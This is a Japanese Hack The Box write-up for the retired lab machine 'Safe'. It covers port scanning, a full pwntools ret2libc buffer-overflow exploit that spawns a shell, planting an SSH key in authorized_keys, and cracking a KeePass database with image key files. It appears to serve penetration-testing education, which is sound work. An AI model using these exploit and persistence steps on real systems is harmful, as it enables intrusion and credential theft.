







「Hack The Box」という、ペネトレーションテストの学習プラットフォームを利用してセキュリティについて学んでいます。
「Hack The Box」のランクは、本記事執筆時点でProHackerです。


今回は、HackTheBoxのリタイアマシン「Safe」のWriteUpです。

<!-- omit in toc -->
## 本記事について

**本記事の内容は社会秩序に反する行為を推奨することを目的としたものではございません。**

自身の所有する環境、もしくは許可された環境以外への攻撃の試行は、「不正アクセス行為の禁止等に関する法律（不正アクセス禁止法）」に違反する可能性があること、予めご留意ください。

またすべての発言は所属団体ではなく個人に帰属します。

<!-- omit in toc -->
## もくじ

- [探索](#探索)
  - [BOFを悪用してシェルを取得する](#bofを悪用してシェルを取得する)
- [内部探索](#内部探索)
- [まとめ](#まとめ)

## 探索

とりあえずNmapスキャンをかけてみると、HTTPとSSHが開いていることがわかりました。

``` bash
Nmap scan report for targethost.htb (10.10.10.147)
Host is up (0.24s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 6d:7c:81:3d:6a:3d:f9:5f:2e:1f:6a:97:e5:00:ba:de (RSA)
|   256 99:7e:1e:22:76:72:da:3c:c9:61:7d:74:d7:80:33:d2 (ECDSA)
|_  256 6a:6b:c3:8e:4b:28:f7:60:85:b1:62:ff:54:bc:d8:d6 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.89 seconds
```

gobusterの出力結果はあまり参考になりませんでした。

``` bash
gobuster dir -u http://targethost.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -t 40 | tee gobuster.txt

===============================================================
2022/06/12 01:36:47 Starting gobuster in directory enumeration mode
===============================================================
/manual               (Status: 301) [Size: 317] [--> http://targethost.htb/manual/]
/server-status        (Status: 403) [Size: 302] 
===============================================================
```

ドメイン制限されている可能性もありますが、現状では何もわからないのでアプローチを変えてApacheの脆弱性を探していきます。

ちょっと手詰まり感があったので、wellknownポート以外のポートスキャンも試してみたところ、1337ポートが解放されていることがわかりました。

``` bash
nmap -p- targethost.htb -Pn -sC -sV -A  | tee nmap_max.txt
1337/tcp open  waste?
| fingerprint-strings: 
|   DNSStatusRequestTCP: 
|     05:43:45 up 2:04, 0 users, load average: 0.00, 0.00, 0.00
|   DNSVersionBindReqTCP: 
|     05:43:39 up 2:04, 0 users, load average: 0.00, 0.00, 0.00
|   GenericLines: 
|     05:43:26 up 2:04, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back?
|   GetRequest: 
|     05:43:33 up 2:04, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back? GET / HTTP/1.0
|   HTTPOptions: 
|     05:43:33 up 2:04, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back? OPTIONS / HTTP/1.0
|   Help: 
|     05:43:50 up 2:04, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back? HELP
|   NULL: 
|     05:43:26 up 2:04, 0 users, load average: 0.00, 0.00, 0.00
|   RPCCheck: 
|     05:43:34 up 2:04, 0 users, load average: 0.00, 0.00, 0.00
|   RTSPRequest: 
|     05:43:34 up 2:04, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back? OPTIONS / RTSP/1.0
|   SSLSessionReq: 
|     05:43:50 up 2:04, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back?
|   TLSSessionReq, TerminalServerCookie: 
|     05:43:51 up 2:04, 0 users, load average: 0.00, 0.00, 0.00
|_    What do you want me to echo back?
```

1337ポートでは何かよくわからないサービスが稼働しているようですが、netcatでつないで見ると`What do you want me to echo back?`という出力が返ってきます。



色々と試してみると、改行文字込みで120バイト分のデータを入力すると応答が返ってこなくなることから、BOFの脆弱性を持ったサービスであると考えられます。



とはいえ、正直応答は返ってこないし裏で動いているバイナリも特定できていないので行き詰まりました。

ブラインドでBOFを通せるほどの経験はないですね。。

さすがにブラインドでやらせることはないだろうと思ったのでバイナリを探していたのですが、80番ポートの方のトップページに`myapp`でファイルがダウンロード可能だという情報がありました。



手に入れたバイナリをデコンパイルしてみましたがかなりシンプルですね。

サーバ側にある`uptime`というプログラムを呼び出して、ユーザから受け取った入力をputするだけのプログラムのようです。



ここではBOFを使って単純に`/bin/sh`のアドレスを呼び出せばよさそうです。

### BOFを悪用してシェルを取得する

シェルの取得に必要な`system`関数のPLTを特定します。

``` bash
$ objdump -d -M intel -j .plt myapp
0000000000401040 <system@plt>:
  401040:       ff 25 da 2f 00 00       jmp    QWORD PTR [rip+0x2fda]        # 404020 <system@GLIBC_2.2.5>
  401046:       68 01 00 00 00          push   0x1
  40104b:       e9 d0 ff ff ff          jmp    401020 <.plt>
```

gdbで探してみても同じアドレスにあるようです。

PIEは無効っぽいのでこのアドレスは不変です。

``` bash
$ info functions
Non-debugging symbols:
0x0000000000401040  system@plt

$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

シンプルなBOFなので、最終的にはこういう感じにしたいです。

1. `pop rdi; ret`のガジェットを探す
2. BOFでripの次のスタック領域に“/bin/sh”を入れる
3. 次のスタック領域にsystemのアドレスを入れる

というわけでさっそくやっていきます。

入力値が格納されるアドレスとRBPの差分が112バイトなので、入力に120文字突っ込めばrip以降のスタック領域を改ざんできることがわかります。

``` bash
$ p=$(ps -ef | grep -v grep | grep myapp | awk '{print $2}'); gdb -p $p -x gdbcmd.txt
RDI: 0x7ffc120a2160 --> 0x74736574 ('test')
RBP: 0x7ffc120a21d0 --> 0x0 
```

pedaのropgadgetを使うと、popretが0x401139に存在することがわかりました。

``` bash
$ ROPgadget --binary myapp | grep pop
0x000000000040120b : pop rdi ; ret
0x0000000000401209 : pop rsi ; pop r15 ; ret
```

ここから結構ハマりましたが、最終的に以下のステップでFlagを取得することができました。

1. ret2libcを使って、putsのアドレスをリークさせる
2. [libc database search](https://libc.blukat.me/?q=puts%3Af90&l=libc6_2.24-11%2Bdeb9u4_amd64)を使い、libcのバージョンを特定



3. 相対オフセットで`/bin/sh`のアドレスを特定して、ROPを使ってsystem関数を実行する

実際に使用したsolverは以下になります。

``` python
from pwn import *

# Local
p = process("./myapp")

# Remote
p = remote("10.10.10.147", 1337)

elf = ELF("./myapp")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
context.binary = elf

junk = b"\x41"*120
main = p64(0x40115f)
system = p64(0x401040)

pop_rdi = p64(0x40120b)
pop_rsi_r15 = p64(0x401209)

payload = b""
payload += b"\x41"*120
payload += pop_rdi
payload += p64(elf.got["puts"])
payload += p64(elf.plt["system"])
payload += p64(elf.sym["main"])

print(p.recvline())
p.sendline(payload)

# a = p.recvline().rstrip()
# print(a)
# print(a[7:-11])

leak = u64(p.recvline().rstrip()[7:-11].ljust(8, b"\x00"))
print(hex(leak))
print(leak)

base = leak - 0x068f90
print(hex(base))

payload = b""
payload += b"\x41"*120
payload += pop_rdi
# payload += p64(next(libc.search(b"/bin/sh\x00")))
# payload += p64(libc.sym["system"])
payload += p64(base+0x161c19)
payload += p64(elf.plt["system"])

print(p.recvline())
p.sendline(payload)
p.interactive()
```

これでuserフラグを取得できました。

## 内部探索

ホームディレクトリをのぞいたところ、`MyPasswords.kdbx`といういかにもなファイルがありました。

とりあえずこれを解析するため、ファイル転送を試みました。

``` bash
$ ls
myapp
MyPasswords.kdbx
user.txt
```

しかし、victimマシンにはcurl、ftp、pythonなどが存在しませんでした。

そこで、sshとscpを使うことにします。

``` bash
$ echo "<pub key>" > ~/.ssh/authorized_keys

$ scp user@targethost.htb:/home/user/MyPasswords.kdbx ./
```

これで`MyPasswords.kdbx`を取得できました。

ついでに`linpeas.sh`を送りこんで探索を進めておきます。

``` bash
$ scp /home/kali/Hacking/Tools/linpeas.sh user@targethost.htb:/home/user
```

`MyPasswords.kdbx`のファイルタイプが「Keepass password database 2.x KDBX」であることがわかりました。

``` bash
$ file MyPasswords.kdbx 
MyPasswords.kdbx: Keepass password database 2.x KDBX
```

以下の記事を読むと、hashcatやKeepass2johnなどのツールを使うことでKDBXの解読ができそうです。

参考：[Can You Crack a KeePass Database if You Forgot Your Password? - Davis Tech Media](https://davistechmedia.com/can-you-crack-a-keepass-database-if-you-forgot-your-password/)

以下のコマンドで解読を試してみましたが、恐ろしく時間がかかりました。

``` bash
$ keepass2john MyPasswords.kdbx > dbhash.txt
# DBNAME:$keepass$....
$ sed -i 's/^.*://g' dbhash.txt # DBNAMEの削除

$ hashcat -a 0 -m 13400 dbhash.txt /usr/share/wordlists/rockyou.txt
```

最終的に12時間くらいかかったものの、rockyouの中にはヒットするパスワードは存在しなかったようです。

``` bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt dbhash.txt
$ hashcat -m 13400 dbhash.txt -a 3 -1 ?l?d ?1?1?1?1?1?1?1?1?1?1 --increment
```

いろいろ調べてみたところ、どうやらこのままでは解析ができないようでした。

試しにKDBXを開けるKeePassXを使ってみたところ、KDBXの他にKeyFileというファイルが必要なようでした。



これ何？って感じだったのですが、どうやらKeePassのドキュメントを見ると、パスワードのみでKDBXを作成する方法と、パスワードとKeyファイルを組み合わせて作る方法の2つがあるようです。

Keyファイルを設定することで、KDBXを開くときにパスワードとKeyファイルにより2要素認証を実現しているんですね。

参考：[Master Key - KeePass](https://keepass.info/help/base/keys.html)

というわけで、思わせぶりにおいてある画像ファイルたちをKeyファイルと仮定してハッシュを解析します。

ここで、keepass2johnでKeyファイルを使ってハッシュを生成するには以下のようにすればよさそうでした。

``` bash
$ scp user@targethost.htb:/home/user/IMG* ./

# keepass2johnでKeyファイルを使用
$ keepass2john MyPasswords.kdbx > dbhash.txt && ls | grep .JPG | while read f; do keepass2john -k $f MyPasswords.kdbx >> dbhash.txt ; done
```

参考：[hashcat - Produce a Hash from Keepass with Keyfile - Stack Overflow](https://stackoverflow.com/questions/45788336/produce-a-hash-from-keepass-with-keyfile)

これで生成されたハッシュを使って今度はjohnで解析します。

``` bash
$ john dbhash.txt /usr/share/wordlists/rockyou.txt
```

出てきたパスワードと適当なIMGファイルを組み合わせるとrootのパスワードが取得できました。



これでrootフラグが取得できました。

疲れた。。

## まとめ

BoF問でした。


